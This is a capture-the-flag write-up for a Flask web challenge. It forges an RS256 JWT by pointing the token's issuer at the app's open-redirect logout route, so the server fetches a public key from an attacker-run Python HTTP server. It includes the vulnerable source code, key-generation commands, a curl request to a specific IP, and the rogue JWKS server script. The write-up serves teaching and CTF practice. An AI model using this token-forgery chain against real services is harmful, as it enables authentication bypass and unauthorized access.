







[Web] Get the secret flag - 300 Pts.
We’re given with these python source code and URL to http://149.28.150.153/
app.py and api.py source code analysis
See the app.py below:
from flask import Flask, request, session, url_for, redirect, render_template, Response
import secrets
from api import api
from werkzeug.exceptions import HTTPException
app = Flask(__name__, template_folder=".")
app.secret_key = secrets.token_bytes()
with open("jwks.json", "r") as jwks_file:
jwks_contents = jwks_file.read().strip()
app.register_blueprint(api)
@app.after_request
def after_request_callback(response: Response):
print(response.__dict__)
if response.headers["Content-Type"].startswith("text/html"):
print(response.response)
updated = render_template("template.html", status=response.status_code, message=response.response[0].decode())
print("BBBBBBBBBBBBBBBB")
response.set_data(updated)
return response
@app.errorhandler(Exception)
def handle_exception(e):
if isinstance(e, HTTPException):
return e
return str(e), 500
@app.route("/", defaults={"path": ""})
@app.route("/<path:path>")
def home(path):
return "Hello World!", 200
@app.route("/login", methods=['GET', 'POST'])
def login():
return "Not Implemented.", 501
@app.route("/jwks.json")
def jwks():
return jwks_contents, 200, {'Content-Type': 'application/json'}
@app.route("/logout")
def logout():
session.clear()
redirect_uri = request.args.get('redirect', url_for('home'))
return redirect(redirect_uri)
See the api.py below:
from flask import Blueprint, request
from urllib.parse import urlparse
import os, jwt, requests
api = Blueprint(
"api", __name__,
url_prefix="/api"
)
valid_issuer = os.getenv("HOST")
valid_alg = "RS256"
valid_user = "motoh4ck3r"
class AuthorizationError(Exception):
pass
def is_valid_issuer(issuer):
return urlparse(issuer).netloc == valid_issuer
def get_public_key_url(token):
header = jwt.get_unverified_header(token)
if "issuer" not in header:
raise AuthorizationError("JWT issuer is not configured.")
token_issuer = header["issuer"]
if not is_valid_issuer(token_issuer):
raise AuthorizationError(f"JWT issuer invalid. Should be: {valid_issuer}")
return "{host}/jwks.json".format(host=token_issuer)
def get_public_key(url):
try:
resp = requests.get(url)
resp.raise_for_status()
resp = resp.json()
return resp["keys"][0]["x5c"][0]
except (requests.exceptions.RequestException, KeyError, IndexError) as e:
raise AuthorizationError(
f"Failed to fetch or prase public key from {url}: {str(e)}"
) from e
def has_valid_alg(token):
header = jwt.get_unverified_header(token)
alg = header["alg"]
return alg == valid_alg
def authorize_request(token):
pubkey_url = get_public_key_url(token)
if not has_valid_alg(token):
raise AuthorizationError("JWT algorithm invalid.")
pubkey = get_public_key(pubkey_url)
pubkey = "-----BEGIN PUBLIC KEY-----\n{pubkey}\n-----END PUBLIC KEY-----".format(pubkey=pubkey).encode()
try:
decoded_token = jwt.decode(token, pubkey, algorithms=[valid_alg])
if "user" not in decoded_token:
raise AuthorizationError("JWT user is not configured.")
return decoded_token["user"] == valid_user
except jwt.ExpiredSignatureError as e:
raise AuthorizationError("JWT signature has expired") from e
except jwt.DecodeError as e:
raise AuthorizationError(f"JWT validation failed: {str(e)}") from e
@api.before_request
def authorize():
if "Authorization" not in request.headers:
raise AuthorizationError("Authorization header not found.")
auth_header = request.headers["Authorization"].split(" ")
if len(auth_header) < 2:
raise AuthorizationError("Bearer token not found.")
token = auth_header[1]
if not authorize_request(token):
raise AuthorizationError("Authorization failed!")
with open("flag.txt", "r") as flag_file:
secret_flag = flag_file.read().strip()
@api.route("/secret_flag", methods=['POST'])
def flag():
return secret_flag
Since we want a flag, we can go to the /secret_flag endpoint. However, we can see that that there’s an initial code to execute before executing the actual endpoint. authorize() is being called first.
...
def authorize():
if "Authorization" not in request.headers:
raise AuthorizationError("Authorization header not found.")
auth_header = request.headers["Authorization"].split(" ")
if len(auth_header) < 2:
raise AuthorizationError("Bearer token not found.")
token = auth_header[1]
if not authorize_request(token):
raise AuthorizationError("Authorization failed!")
...
We can see that there should be a Authorization header with token set to it. We can set our own JWT in there just to proceed with the code. The format would be Authorization: Bearer <our token>
This should take us to authorize_request(token). Let’s take a look at it.
...
def authorize_request(token):
pubkey_url = get_public_key_url(token)
if not has_valid_alg(token):
raise AuthorizationError("JWT algorithm invalid.")
pubkey = get_public_key(pubkey_url)
pubkey = "-----BEGIN PUBLIC KEY-----\n{pubkey}\n-----END PUBLIC KEY-----".format(pubkey=pubkey).encode()
try:
decoded_token = jwt.decode(token, pubkey, algorithms=[valid_alg])
if "user" not in decoded_token:
raise AuthorizationError("JWT user is not configured.")
return decoded_token["user"] == valid_user
except jwt.ExpiredSignatureError as e:
raise AuthorizationError("JWT signature has expired") from e
except jwt.DecodeError as e:
raise AuthorizationError(f"JWT validation failed: {str(e)}") from e
...
We can see we bumped into get_public_key_url(). As the function name says, it just retrieves a URL from the token we submitted. If it successfully retrieves a URL from the token, it gets the public key from that URL. and then uses it to decodethe JWT we have submitted.
Let’s jump first to get_public_key_url() to see how it gets the URL:
...
def get_public_key_url(token):
header = jwt.get_unverified_header(token)
if "issuer" not in header:
raise AuthorizationError("JWT issuer is not configured.")
token_issuer = header["issuer"]
if not is_valid_issuer(token_issuer):
raise AuthorizationError(f"JWT issuer invalid. Should be: {valid_issuer}")
return "{host}/jwks.json".format(host=token_issuer)
...
It’s noticeable that it tries to get the header of our JWT string once we create it and the header should contain issuer key and some value. Goind further, we can see that the URL it tries to build is the issue value with jwks.json as the path. So for example if we have a host of “http://sample-host.com” it will build the final URL build “http://sample-host.com/jwks.json”
Remember also that the host also has jwks.json from the app.py. We can retrieve the contents and the content is:
{
"keys": [
{
"alg": "RS256",
"x5c": [
"MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqwbbx3Ih7YDR+GB9kX+3\nZ/MXkVyj0Bs+E1rCph3XyAEDzft5SgK/xq4SHO48RKl+M17eJirDOnWVvHqnjxyC\nig2Ha/mP+liUBPxaNRPbJbXpn9pmbYLR/7LIUvKizL9fYdYyQnACLI1OdAD/PKLjQ\nIAUGi6a8L37VQOjmf6ooLOSwKdNq/aM4eFpciKNZ3gO0YMc6SC17Jt/0L9aegxqt\nVwEXQou1/yisLuzEY6LmKEbTXuX9oSVFzd/FXi2xsLrD4nqI/HAiRoYnK1gAeglw\nF23h8Hc8jYoXgdZowt1+/XuDPfHKsP6f0MddLlDaJAML2Ab6fJk3B1YkcrAZap4Zzu\nAQIDAQAB"
]
}
]
}
Let’s go back up again see next the has_valid_algorithm():
...
valid_alg = "RS256"
...
def has_valid_alg(token):
header = jwt.get_unverified_header(token)
alg = header["alg"]
return alg == valid_alg
...
It just checks if the algorithm used in the provided JWT string is “RS256”. So we need to create an RS256 JWT. A private key and public key is needed to create RS256 JWT. Below commands can be used:
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
: << COMMENT
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in jwtRS256.key
Your public key has been saved in jwtRS256.key.pub
The key fingerprint is:
SHA256:VLL6D8WiVQpwufNe1+EXhj7pAyfowG4AZxmcLoYZNXM kali@kali
The key's randomart image is:
+---[RSA 4096]----+
| .+oEo.. . |
| . +*. + |
| + . +.o . . |
| o + =o+ + ..o |
| . = ooS + .oo..|
| . *.+.o.=o .|
| +.=. .= .. |
| o.+ o |
| . . . |
+----[SHA256]-----+
COMMENT
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
We can use https://jwt.io/ and the jwtRS256 keys for the contruction of JWT.

We’re ready to form our JWT. Let’s go back up again see next the get_public_key():
...
def get_public_key(url):
try:
resp = requests.get(url)
resp.raise_for_status()
resp = resp.json()
return resp["keys"][0]["x5c"][0]
except (requests.exceptions.RequestException, KeyError, IndexError) as e:
raise AuthorizationError(
f"Failed to fetch or prase public key from {url}: {str(e)}"
) from e
...
It’s pretty straightforward: Create an HTTP request to the URL retrieved earlier and retrieve the jwks.json contents and get the x5c value. jwks.json is The JSON Web Key Set (JWKS) is a set of keys containing the public keys used to verify any JSON Web Token (JWT) issued by the Authorization Server and signed using the RS256 signing algorithm. When creating applications and APIs in Auth0, two algorithms are supported for signing JWTs : RS256 and HS256. - auth0.com
Basically the public key is retrieved through the jwks.json and verify and decode the retrieved token from us. Therefore, the server has to use our public key in order to verify our payload. This also means that it has to connect to our server through the issuer. With this in mind, we can form the following JWT below:

Going back up again at authorize_request(), after the verification and decoding of our JWT, it tries to find “user” key from the payload and checks if it’s a valid user i.e. it’s equal to “motoh4ck3r”.
...
try:
decoded_token = jwt.decode(token, pubkey, algorithms=[valid_alg])
if "user" not in decoded_token:
raise AuthorizationError("JWT user is not configured.")
...
We can form the JWT again below. We now add the “user” key and “motoh4cker” corresponding value.

If everything is fine, it should work and the flag should be printed. We used the following command below:
curl http://149.28.150.153//api/secret_flag -X POST -d 'aa=aaa' -H "Content-Type: application/json" -H 'Authorization: Bearer <JWT generated>' -vvv
Unfortunately, it didn’t print the flag and it stated that the issuer should be localhost:80.

This is very bad since we can’t control the jwks.json of localhost. Getting the private key for the target server’s jwks.json is also out of the question. After a bit of analysis in the provided source codes, turns out there is also a open redirect vulnerability on the app.py through the logout() function:
...
def logout():
session.clear()
redirect_uri = request.args.get('redirect', url_for('home'))
return redirect(redirect_uri)
...
We can set redirect to our host jwks.json. The final issuer value is http://localhost:80/logout?redirect=http://<our_host>:8000/jwks.json. This tricks the issuer check since the initial URL technically points to itself (localhost) but the HTTP request it’s doing follows redirect to our host so this is perfect for our case.
We can now edit the JWT like below:

On our server, we setup a simple HTTP server in python getting jwks.json and returning it as json. The following code is used below:
#!/usr/bin/env python
# Reflects the requests with dummy responses from HTTP methods GET, POST, PUT, and DELETE
# Written by Tushar Dwivedi (2017)
import json
from http.server import HTTPServer, BaseHTTPRequestHandler
from optparse import OptionParser
class RequestHandler(BaseHTTPRequestHandler):
def do_GET(self):
request_path = self.path
print("\n----- Request Start ----->\n")
print("request_path :", request_path)
print("self.headers :", self.headers)
print("<----- Request End -----\n")
self.send_response(200)
self.send_header("Set-Cookie", "foo=bar")
self.send_header("content-type", "application/json")
self.end_headers()
self.wfile.write(json.dumps({ "keys": [ { "alg": "RS256", "x5c": [ "MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEAwJRlDqfdpsAYr1FqzBtdM8amhWSlxReUPqin67zPIczaWWV2rcqDuwwNwLlt2px5E/nhpu7M1LpLQf29jnlMuG/G/uBKmxRteysv/EdXRrDDFmGDNDVsT+Nt9DIfWi2yQv/ha+LwRsIz+PyS2PdsNTGqF5Fn4yvP5q7KlIgfdV6g8cGnmRQxOxBuDvwGP5Kel3sNHOq/LU9z2xSUtu/ip1BuhuI1bJd7t7uo3mtHjeSEuoldsgVAHgwvU7Q3CvlIr8qvHuZ3X646BVCm4ufTAzfYtlBLgHi4A1T9jxt99MAQMlsVe5/cNgq0fFhDq86uWY/UGh+qrOHOL/8wHr/1wUKW4Xelqhm0h8KSad112HxYMX9287hbs6sXnZ72jtcMhA4dL0w2HQ6ZQ3Lv8XNA+B5RWx5wJPFsCDFnDfEQxoDG2V6JMK1B0SOiHDIEuF6hc3ebq3oYOA9clqZRiTcDPlCdl0FftLOu4LqFCdt+h/F+HlvkzBNlrxnz9XBVghgA4LrTYcX2TRVtqjOMfXEPKgu8f5Zqy1ZmH4aQ1AybVvd40ZdlsEZtK1cmy2PUTdopmzrxnkrVvkb8eC4M2OSNNyjzwKL7OyllCEP43Hp+sRy6lEIWajAlEosCh1iLVwMH9EIsc/laBM9/o7VlgocoSIOHKsx+ZCAXnPDFuiTj32sCAwEAAQ==" ] } ]}).encode("utf-8"))
def main():
port = 8000
print('Listening on localhost:%s' % port)
server = HTTPServer(('', port), RequestHandler)
server.serve_forever()
if __name__ == "__main__":
parser = OptionParser()
parser.usage = ("Creates an http-server that will echo out any GET or POST parameters, and respond with dummy data\n"
"Run:\n\n")
(options, args) = parser.parse_args()
main()
And then we ran it, waiting for the target server to connect:

Final cURL execution with the most updated JWT returns the flag:
